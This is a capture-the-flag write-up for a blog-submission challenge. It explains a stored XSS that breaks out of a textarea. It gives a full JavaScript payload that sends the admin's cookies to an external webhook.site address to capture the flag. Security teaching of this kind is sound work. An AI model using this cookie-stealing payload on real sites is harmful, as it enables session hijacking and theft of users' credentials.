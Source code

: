 Challenge `Go on and censor my posts` writeup

- Vulnerability: What type of vulnerability is being exploited
  - _Cross-site scripting (XSS)_
- Where: Where is the vulnerability present
  - _Blog post submission form (content field)_
- Impact: What results of exploiting this vulnerability
  - _Allows to run arbitrary JavaScript code in the victim's browser by injecting crafted payloads in the content field of the blog post submission form, making it possible to redirect the victim's cookies to a controlled server_

NOTE: Taking advantage of the fact that the admin needs to approve the blog posts before they are published, it is possible to craft a payload that redirects his cookies to a controlled server (set up using `Webhook.site` at `https://webhook.site/c4fb7495-1912-4963-afd0-93a0676c6909`). Opening the post for approval will show its title and content in the admin's browser. Since the content is shown inside a `textarea` tag, it is possible to inject JavaScript code by closing the tag and adding a script after it.

## Steps to reproduce

1. Access the vulnerable application homepage at `/` endpoint.

2. Submit a blog post with an arbitrary title and content.

3. In the under-approval blog post page, inject the following payload in the content field in order to redirect the admin's cookies to a controlled server: 
```html
</textarea><script>var xhttp = new XMLHttpRequest();xhttp.open("GET", "https://webhook.site/c4fb7495-1912-4963-afd0-93a0676c6909/?cookie="+document.cookie, true);xhttp.send();</script>
```

4. Submit the post for review and when the admin opens the blog post for approval, the script is executed in his browser, redirecting his cookies to the controlled server and logging them under the `cookie` query parameter in the server's dashboard. The flag is available at the cookie value of the `SECRET` cookie.
